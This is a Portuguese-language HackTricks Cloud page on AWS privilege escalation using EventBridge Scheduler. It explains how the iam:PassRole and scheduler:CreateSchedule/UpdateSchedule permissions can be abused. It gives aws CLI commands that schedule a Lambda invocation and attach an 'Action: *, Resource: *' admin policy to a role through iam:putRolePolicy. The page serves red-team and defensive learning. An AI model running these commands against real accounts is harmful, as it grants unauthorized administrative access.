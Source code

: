 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## EventBridge Scheduler

O EventBridge Scheduler pode ser usado para escalonamento de privilégios agendando chamadas para vários serviços AWS. Ao aproveitar sua capacidade de invocar serviços em uma base agendada, usuários com permissões suficientes podem escalar privilégios. Aqui estão algumas das ações principais que o EventBridge Scheduler pode acionar usando alvos template:

* Lambda: lambda:InvokeFunction - Invocar funções Lambda em um cronograma.
* CodeBuild: codebuild:StartBuild - Iniciar projetos AWS CodeBuild.
* CodePipeline: codepipeline:StartPipelineExecution - Acionar execuções do AWS CodePipeline.
* ECS: ecs:RunTask - Executar tarefas ECS.
* EventBridge: events:PutEvents - Colocar eventos no EventBridge.
* Inspector: inspector:StartAssessmentRun - Iniciar avaliações do Amazon Inspector.
* Kinesis: kinesis:PutRecord - Colocar registros em streams Kinesis.
* Firehose: firehose:PutRecord - Colocar registros em streams de entrega Firehose.
* SageMaker: sagemaker:StartPipelineExecution - Iniciar execuções de pipeline do SageMaker.
* SNS: sns:Publish - Publicar mensagens em tópicos SNS.
* SQS: sqs:SendMessage - Enviar mensagens para filas SQS.
* Step Functions: states:StartExecution - Iniciar execuções de AWS Step Functions.

Estas são apenas algumas das ações template que o EventBridge Scheduler pode realizar. No entanto, ao usar alvos universais, muitas outras ações em serviços AWS podem ser invocadas. Alvos universais permitem operações de API mais extensas além da lista template.

Mais informações sobre o EventBridge Scheduler em:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Usuários com permissões `sts:AssumeRole`, `iam:PassRole` e `scheduler:CreateSchedule ou scheduler:UpdateSchedule` podem escalar privilégios aproveitando o EventBridge Scheduler para invocar serviços usando um papel com privilégios mais altos.

Com essas permissões, um atacante pode assumir um papel com privilégios elevados e passar esse papel para o EventBridge Scheduler ao criar ou atualizar um cronograma. O cronograma pode ser configurado para realizar qualquer uma das ações listadas anteriormente, como invocar funções Lambda, iniciar tarefas ECS, acionar execuções do CodePipeline ou qualquer operação dos 270 serviços AWS suportados pelo EventBridge Scheduler. Ao agendar essas ações, um atacante poderia abusar de privilégios mais altos para realizar operações não autorizadas em serviços AWS. \\

Por exemplo, eles poderiam configurar o cronograma para invocar uma função Lambda que é uma ação template:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Além das ações de serviço modeladas, você pode usar alvos universais no EventBridge Scheduler para invocar uma ampla gama de operações de API para muitos serviços AWS. Alvos universais oferecem flexibilidade para invocar quase qualquer API. Um exemplo pode ser usar alvos universais adicionando "AdminAccessPolicy", usando um papel que tem a política "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Referências

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Treinamento AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Treinamento GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
